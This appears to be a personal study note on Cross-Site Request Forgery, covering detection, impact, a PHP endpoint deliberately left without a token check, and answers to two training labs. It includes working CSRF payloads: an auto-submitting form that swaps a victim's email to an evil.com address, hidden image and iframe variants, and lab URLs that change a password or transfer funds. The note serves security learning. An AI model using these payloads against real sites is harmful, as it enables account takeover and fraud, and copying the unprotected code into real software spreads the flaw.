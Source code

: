 #+title: Cross Site Request Forgery
#+author: gabriel

* intro
Cross-Site Request Forgery (CSRF) is a type of cyberattack commonly found in web applications that causes an authenticated user to submit an unwanted or unauthorized command to a web server without their knowledge.

The potential impact of CSRF attacks varies depending on the functionality of the vulnerable application and the privilege level of the victim. Key impacts include:

*unauthorized actions* ->
Performing actions on behalf of the user, such as changing account information (password, email), posting on social media accounts, or ordering products from e-commerce sites.

*compromised data integrity* ->
Unauthorized modification or deletion of data in the application's database.

*financial losses* ->
 In banking or e-commerce applications, money transfers or purchases can be made on behalf of the victim.

*account takeover* ->
By exploiting password or email change functionalities, it may be possible to completely take over the victim's account.

** example scenario
1. The victim logs into theri banking application at https://vulnerable-bank.com, and their browser stores a session cookie for this site

2. The attacker crafts a forged money transfer request, such as URL Like https:///vulnerable-bank.com/transfer?to=attacker&amount=1000

3. The attacker embeds a mechanism to trigger this request on a web site they control https://attacker-site.com. This could be a hidden <img> tag, or an auto-submitting form.

4. The victim visist the https://attacker-site.com while their banking session is still active.

5. The victim browser automatically sends a GET request to the URL in the <img> tag src attribute. The browser automatically includes the session cookie for vulnerable-bank.com in this request

6. The vulnerable-bank.com server receives the request with a valid session cookie, threats it as legitimate, and transfer 1000 units of currency to the attacker account.

* detection and exploitation
Detecting and exploiting CSRF vulnerabilities requires understanding how the application handles state-changing requests.

These requests include actions like changing a user's password, adding an item to their cart, or updating any information in their account.

1. Identify a state-changing action in the application (e.g., updating an email address).

2. Capture the HTTP request generated when performing this action using a proxy tool (e.g., Burp Suite).

3. Analyze whether the request relies solely on cookies for session management.

4. Check if the request includes an unpredictable, per-request parameter (an Anti-CSRF token).

5. If there is no token, attempt to exploit the vulnerability by creating a forged HTML form or URL that mimics this request.

The biggest sign that a request is vulnerable to CSRF is the absence of a secret, unpredictable value used to verify the request.

Besides the session cookie, you are looking for a second, unique factor (a token) that authenticates the specific request.

** common token parameter and example values
- csrf_token=a1b2c3d4e5f6...
- authenticity_token=b1c2d3e4f5a6... (Ruby on Rails)
- __RequestVerificationToken=c2d3e4f5a6b1... (ASP.NET)
- xsrf_token=d3e4f5a6b1c2...
- nonce=e4f5a6b1c2d3...

** common token header names and example values (AJAX)
- X-CSRF-Token: f5a6b1c2d3e4...
- X-XSRF-TOKEN: a6b1c2d3e4f5...

  If a request relies solely on a session cookie for authentication and does not include an additional, unpredictable protection like the ones listed above, it is highly likely to be vulnerable to CSRF.

* Post-based CSRF exploitation
Requests made with the POST method are typically triggered by a form submission in the browser. This is the most common scenario for CSRF attacks.

** change email scenario
1. legitimate request analysis
   #+begin_src python
POST /my-profile/change-email HTTP/1.1
Host: vulnerable-site.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Cookie: session=AbC1dE2fGhI3jK4LmN5oPqR6sT7uV8wX

email=new.user.email@example.com
   #+end_src

If the server successfully processes the request, it usually returns a response that redirects the user back to their profile page.

#+begin_src python
HTTP/1.1 302 Found
Location: /my-profile
Set-Cookie: session=AbC1dE2fGhI3jK4LmN5oPqR6sT7uV8wX; HttpOnly
Content-Length: 0
#+end_src

In this request, there is no random token to verify the legitimacy of the request other than the session cookie. This indicates a CSRF vulnerability.

** Preparing the CSRF payload
The attacker prepares an HTML page that will mimic this request and execute automatically in the victim's browser.

#+begin_src html
<html>
  <body>
    <form action="https://vulnerable-site.com/my-profile/change-email" method="POST">
      <input type="hidden" name="email" value="attacker.email@evil.com" />
    </form>
    <script>
      // Automatically submit the form
      document.forms[0].submit();
    </script>
  </body>
</html>
#+end_src

*explanation* ->
- form action: Specifies the target URL where the request will be sent.
- method="POST": Specifies that the request will use the POST method.
- input type="hidden": Contains the email parameter and its value (attacker.email@evil.com), which will be sent with the request but will be invisible on the form.
- script: Triggers the attack by automatically submitting the form when the page loads.

** exploitation and result
- The victim logs into vulnerable-site.com.
- The attacker convinces the victim to visit https://attacker-site.com/csrf.html in some way (e.g., via an email or social media message).
- When the victim visits the page, the JavaScript code automatically submits the form.
- The victim's browser sends the forged request to vulnerable-site.com. The browser automatically includes the valid session cookie for vulnerable-site.com in this request.
#+begin_src javascript
POST /my-profile/change-email HTTP/1.1
Host: vulnerable-site.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Cookie: session=AbC1dE2fGhI3jK4LmN5oPqR6sT7uV8wX
Origin: https://attacker-site.com

email=attacker.email@evil.com
#+end_src

Since the server sees a valid session cookie, it accepts the request as if it were made by a legitimate user and updates the email address to attacker.email@evil.com. The attacker can then use the "forgot password" feature to take full control of the account.


* Get-based CSRF Exploitation
GET requests are simpler and can often be triggered just by clicking a URL or loading a resource (like an image or script).

If a state-changing action is performed via a GET request (which is bad practice from a design perspective), exploitation becomes even easier.

** example scenario
1. legitimate request analysis
   The application might handle following a user with a GET request like the one below.

   #+begin_src javascript
GET /user/follow?user_id=123 HTTP/1.1
Host: vulnerable-social.com
Cookie: session=Z1Y2X3W4V5U6T7S8R9Q0P
   #+end_src

2. preparing the CSRF payload
An attacker can use a simple <img> tag to trigger this request. The victim doesn't even need to see the image; it can be 1x1 pixel in size.

#+begin_src html
<html>
  <body>
    <h3>Today's Most Popular Posts!</h3>
    <img src="https://vulnerable-social.com/user/follow?user_id=attacker_id" style="display:none;">
    <!-- The victim won't see this image, but their browser will send the request -->
  </body>
</html>
#+end_src

Alternatively, the attacker doesn't even need a structure like an <img> tag. They can simply copy the malicious URL (https://vulnerable-social.com/user/follow?user_id=attacker_id)

and send it to the victim via a direct message on the target site, an email, or any other social engineering method to get them to click it.

3. Exploitation and result
When the victim visits the lure.html page or clicks the malicious link while logged into vulnerable-social.com,  their browser sends a GET request to vulnerable-social.com to either load the src of the <img> tag or navigate to the link.

This request causes the victim to unknowingly follow the attacker's account (attacker_id). This could grant the attacker privileges such as sending private messages or appearing in the victim's feed.

* impacts and payloads
The impact of a CSRF attack can vary greatly depending on the functionality of the targeted application and the privilege level of the user being attacked.

A successful CSRF attack against an administrator account can have far more devastating consequences than one against a standard user.

The following table summarizes common actions that can be performed through CSRF attacks and their potential consequences.

| Action Type | Example Scenario | Potential Impact
| Account Management | Changing a user's email address or password. | Complete account takeover.
| Financial Transactions | Transferring money from a bank account, buying or selling stocks. | Direct financial loss, fraud.
| E-commerce Actions | Adding items to a user's cart, placing an order, changing the shipping address. | Unwanted purchases, delivery to the wrong address.
| Social Media | Posting content, sending messages, adding/removing friends on behalf of the user. | Reputational damage, spreading spam, disseminating false information.
| Privilege Escalation | A low-privileged user making another user with admin rights an administrator of their own account. | Unauthorized access to the system, compromising the security of other users.
| Data Manipulation | Deleting or modifying important data in the application (e.g., deleting a blog post). | Data loss, disruption of the application's functionality.
| Voting/Polling | Casting a vote on behalf of a user in a poll or survey. | Manipulation of results, subverting the system's purpose.

Alternatively, the attacker can simply copy the malicious URL (https://vulnerable-social.com/user/follow?user_id=attacker_id) and send it to the victim via a private message.

** Get-based payloads
Since GET requests are triggered via a URL, payloads are often hidden within links or media tags.

| Payload | Description
| <a href="https://vulnerable-site.com/action?param=value">Click Me!</a> | Triggers the attack when the user clicks a link. This is the simplest method.
| <img src="https://vulnerable-site.com/action?param=value" width="1" height="1"> | Triggers automatically when the page loads. The user does not need to take any action. Can be completely hidden with display:none.
| <link rel="stylesheet" href="https://vulnerable-site.com/action?param=value"> | Triggers the browser to make the request automatically by pretending to be a CSS file.
| <script src="https://vulnerable-site.com/action?param=value"></script> | Sends the request by pretending to be a JavaScript file.

** Post-basesd Payloads
POST requests typically require a form submission. Therefore, payloads are HTML forms that contain JavaScript for auto-submission.

| Payload | Description
| <html>...<form action="..." method="POST">...</form><script>document.forms[0].submit();</script></html> | The most common POST payload. It automatically submits the form when the page loads.
| <form id="csrf-form" ...>...</form><script>document.getElementById('csrf-form').submit();</script> | Used to target a specific form on pages where there are multiple forms.
| <iframe style="display:none" name="csrf-iframe"></iframe><form action="..." method="POST" target="csrf-iframe">...</form><script>document.forms[0].submit();</script> | Executes the request within a hidden iframe to prevent the page from reloading or redirecting upon form submission. This makes the attack stealthier.

These payloads demonstrate the basic exploitation mechanisms of CSRF vulnerabilities. Real-world attacks may combine these basic structures with more complex scenarios and obfuscation techniques.

* vulnerable code example

** vulnerable email change code in php
The following PHP code contains simple logic for changing a user's email address. However, it is vulnerable because it lacks any CSRF protection.
#+begin_src php
<?php
session_start();

// Check if the user is logged in
if (!isset($_SESSION['user_id'])) {
    // If no session, redirect to the login page
    header('Location: /login.php');
    exit();
}

// Assuming a database connection
// include 'db_connection.php';

// If the form was submitted via POST method
if ($_SERVER['REQUEST_METHOD'] === 'POST') {

    // Get the new email address
    $new_email = $_POST['email'];
    $user_id = $_SESSION['user_id'];

    // --- VULNERABLE PART ---
    // At this point, there is NO check for an Anti-CSRF token
    // to verify that the request was genuinely made by the user.
    // A request from a malicious form prepared by an attacker
    // will be accepted as long as it includes a valid session cookie.

    // Update the email address in the database (pseudo-code)
    // updateUserEmail($user_id, $new_email);

    echo "Your email address has been successfully updated to: " . htmlspecialchars($new_email);
    // Usually, the user is redirected to their profile page
    // header('Location: /profile.php');
    // exit();
}

?>

<!-- Email change form -->
<form method="POST" action="change_email.php">
    <label for="email">New Email Address:</label>
    <input type="email" id="email" name="email">
    <button type="submit">Update</button>
</form>
#+end_src

- *Session Management*--> Based Only on Cookies--> The code relies solely on the $_SESSION['user_id'] value to authenticate the user. This session is managed by a cookie stored in the browser.
- *Lack of Anti-CSRF Token*--> When processing the POST request, the code does not check for a unique token to verify the origin of the request. The $_POST['email'] value is taken and processed directly.
- *Predictable Request*--> An attacker can easily predict which URL (change_email.php) and which parameters (email) this form sends requests to.


When these three factors come together, an attacker can change the email address of any user logged into vulnerable-site.com with a form hosted on their own site that has an action="https://vulnerable-site.com/change_email.php".

* change password (CSRF) lab
This lab contains a CSRF vulnerability.

To complete the lab, create a custom URL with the password change endpoint and submit the link via live support at the bottom right. The support staff will run the link you sent and the password will be changed. Login to the admin user's account with the new password.

What is the e-mail address seen when logging into the admin user's account?

*payload at suport channel chat* ->
: https://kind-heather.europe1.hackviser.space/index.php?new_password=hacked

* money transfer (CSRF)
This lab contains a CSRF vulnerability.

To complete the lab, create a URL to transfer funds to your account and send the link via live support on the bottom right. The support staff will execute the link you sent and transfer money to your account unintentionally.

What is the transfer ID that appears when money arrives in the user account?

*payload at suport channel chat again* ->
: https://equal-winter-soldier.europe1.hackviser.space/index.php?transfer_amount=100&receiver=user
